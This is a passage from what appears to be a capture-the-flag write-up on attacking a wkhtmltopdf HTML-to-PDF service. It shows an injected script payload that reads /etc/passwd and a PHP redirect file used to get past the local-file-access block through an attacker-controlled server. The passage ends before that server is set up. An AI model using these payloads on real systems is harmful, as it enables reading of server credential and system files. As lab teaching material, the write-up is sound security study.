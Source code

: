 Now we can try to read a local file such as `/etc/passwd`

```html
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write(btoa(this.responseText))};
x.open("GET","file:///etc/passwd");
x.send();
</script>
```

![passwd fail](/images/seasurf/passwd-fail.png)

It doesn't work! According to the
[issue page](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/4536){:target="_blank"}{:rel="noopener noreferrer"}
it's possible that the service is running with
the `--disable-local-file-access` flag which will
prevent local file reads. Luckily, there is a workaround!

According to
[this cheatsheet](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/){:target="_blank"}{:rel="noopener noreferrer"}
we should still be able to read local files by having
the service make a request to our server.

First write this to a file called `read.php`

```php
<?php header('location:file://'.$_REQUEST['x']); ?>
```

Then start a php web server in the same directory as
this file
